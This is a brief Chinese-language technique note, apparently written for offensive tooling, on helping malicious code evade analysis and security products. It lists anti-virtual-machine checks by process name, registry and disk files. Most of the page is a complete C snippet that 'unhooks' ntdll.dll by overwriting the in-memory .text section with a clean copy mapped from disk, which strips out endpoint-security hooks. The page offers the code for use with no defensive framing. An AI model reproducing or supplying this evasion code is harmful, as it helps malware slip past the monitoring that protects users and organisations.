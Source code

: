 
-   Anti VM：反虚拟机
    

-   检测进程名
    
-   检测注册表
    
-   检测磁盘中文件
    
    如图：
    
    ![图片](assets/1699494032-37d80127b73f829661c0d17b431e0b18.svg)
    
      
    
      
    

-   Unhook：从磁盘加载ntdll
    

通过读取磁盘上ntdll.dll的.text节，覆盖内存当中的ntdll.dll的.text节，达到脱钩的效果

![图片](assets/1699494032-37d80127b73f829661c0d17b431e0b18.svg)

  

  

  

示例代码：

```plain
  HANDLE process = GetCurrentProcess();
  MODULEINFO mi = {};
  HMODULE ntdllModule = GetModuleHandleA("ntdll.dll");

  GetModuleInformation(process, ntdllModule, &mi, sizeof(mi));
  LPVOID ntdllBase = (LPVOID)mi.lpBaseOfDll;
  HANDLE ntdllFile = CreateFileA("c:\\windows\\system32\\ntdll.dll", GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, 0, NULL);
  HANDLE ntdllMapping = CreateFileMapping(ntdllFile, NULL, PAGE_READONLY | SEC_IMAGE, 0, 0, NULL);
  LPVOID ntdllMappingAddress = MapViewOfFile(ntdllMapping, FILE_MAP_READ, 0, 0, 0);

  PIMAGE_DOS_HEADER hookedDosHeader = (PIMAGE_DOS_HEADER)ntdllBase;
  PIMAGE_NT_HEADERS hookedNtHeader = (PIMAGE_NT_HEADERS)((DWORD_PTR)ntdllBase + hookedDosHeader->e_lfanew);

  for (WORD i = 0; i < hookedNtHeader->FileHeader.NumberOfSections; i++) {
    PIMAGE_SECTION_HEADER hookedSectionHeader = (PIMAGE_SECTION_HEADER)((DWORD_PTR)IMAGE_FIRST_SECTION(hookedNtHeader) + ((DWORD_PTR)IMAGE_SIZEOF_SECTION_HEADER * i));

    if (!strcmp((char*)hookedSectionHeader->Name, (char*)".text")) {
      DWORD oldProtection = 0;
      bool isProtected = VirtualProtect((LPVOID)((DWORD_PTR)ntdllBase + (DWORD_PTR)hookedSectionHeader->VirtualAddress), hookedSectionHeader->Misc.VirtualSize, PAGE_EXECUTE_READWRITE, &oldProtection);
      memcpy((LPVOID)((DWORD_PTR)ntdllBase + (DWORD_PTR)hookedSectionHeader->VirtualAddress), (LPVOID)((DWORD_PTR)ntdllMappingAddress + (DWORD_PTR)hookedSectionHeader->VirtualAddress), hookedSectionHeader->Misc.VirtualSize);
      isProtected = VirtualProtect((LPVOID)((DWORD_PTR)ntdllBase + (DWORD_PTR)hookedSectionHeader->VirtualAddress), hookedSectionHeader->Misc.VirtualSize, oldProtection, &oldProtection);
    }
  }

  CloseHandle(process);
  CloseHandle(ntdllFile);
  CloseHandle(ntdllMapping);
  FreeLibrary(ntdllModule);
```